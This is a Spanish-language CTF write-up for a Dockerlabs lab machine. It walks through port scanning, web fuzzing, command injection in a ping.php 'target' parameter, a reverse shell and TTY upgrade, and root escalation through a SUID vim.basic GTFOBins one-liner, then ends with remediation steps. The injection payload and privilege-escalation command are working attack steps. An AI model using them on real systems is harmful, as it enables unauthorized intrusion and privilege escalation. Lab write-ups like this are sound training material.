










# Writeup: PingCTF &mdash; Dockerlabs
- **Dificultad:** Fácil
- **Plataforma:** Dockerlabs
- **IP Objetivo:** 172.17.0.2
- **Técnicas Clave:** Enumeración de Puertos, Fuzzing Web, Inyección de Comandos, Escalada de Privilegios mediante SUID ```(vim.basic/GTFOBins)```.

___
### Reconocimiento y Escaneo de Puertos
- **Escaneo de red con Nmap:**

      nmap -p- --open -sS -sC -sV 172.17.0.2 -n -Pn

  

- **Resultado:** Únicamente se detectó abierto el puerto ```80/tcp``` ejecutando un servidor HTTP.

___
### Enumeración Web y Fuzzing
- **Inspección inicial:** Al revisar el código fuente mediante ```curl -s [http://172.17.0.2```, se identificó una interfaz gráfica diseñada como herramienta de diagnóstico de red ("verificar conectividad con IPs o dominios") con un formulario que apuntaba a ```ping.php```.

- **Fuzzing de rutas y parámetros:**

    Con **Gobuster** se identificaron recursos y códigos de estado HTTP:

    

    - **/index.html** (Status: ```200```)
    - **/javascript** (Status: ```301```)
    - **/ping.php** (Status: ```302```)

    Con **ffuf** se realizó fuzzing sobre los parámetros del script web, confirmando la existencia y respuesta válida del parámetro ```target``` (Status: ```200```).

    

___
### Explotación: Inyección de Comandos y Reverse Shell
- **Prueba de concepto:** Se concatenaron comandos del sistema operativo mediante ```curl``` en el parámetro ```target```:

      $  curl -s "http://172.17.0.2/ping.php?target=127.0.0.1;id"

    
    
    La respuesta devolvió ```uid=33(www-data) gid=33(www-data) groups=33(www-data)```, confirmando la inyección de comandos en el backend.
- **Establecimiento de acceso:**
  1. Se levantó un listener en el host auditor con **netcat:**
  
      
  
  2. Se ejecutó la conexión reversa aprovechando la inyección en ```target``` para obtener una sesión remota:

    
      

      

  3. Con la conexión exitosa a la terminal bajo el contexto de ```www-data```. Se realizó el **tratamiento de la TTY** para contar con una terminal completamente interactiva (para el soporte de atajos, autocompletado, etc):

          script /dev/null -c bash
          ctrl ^Z (para suspender)
          stty raw -echo; fg
          reset
          export TERM=xterm

      

___
### Escalada de Privilegios
- Con la terminal lista y confirmada la identidad de usuario se comenzó la búsqueda de binarios con permisos SUID:

      $ find / -perm -4000 2>/dev/null

    

- **Resultado:** Se localizó un error crítico, ```/usr/bin/vim.basic``` con el bit SUID activo.
- **Explotación con GTFOBins:** Apoyándose en las técnicas documentadas en GTFOBins para editores de texto con SUID, se invocó una shell preservando los privilegios elevados del binario:

      /usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'

  

  Ejecutada la shell interactiva se confirman privilegios de superusuario concluyendo así con la máquina :))

  ___
  ## Remediación
  - **Saneamiento en la aplicación web:** Validar estrictamente la entrada del parámetro ```target``` asegurando que corresponda únicamente a una dirección IP válida o escapar los argumentos con ```escapeshellarg()``` antes de cualquier invocación del sistema.
  - **Corrección de permisos locales:** Retirar el bit SUID de los binarios y editores interactivos que no lo requieran:

        chmod u-s /usr/bin/vim.basic
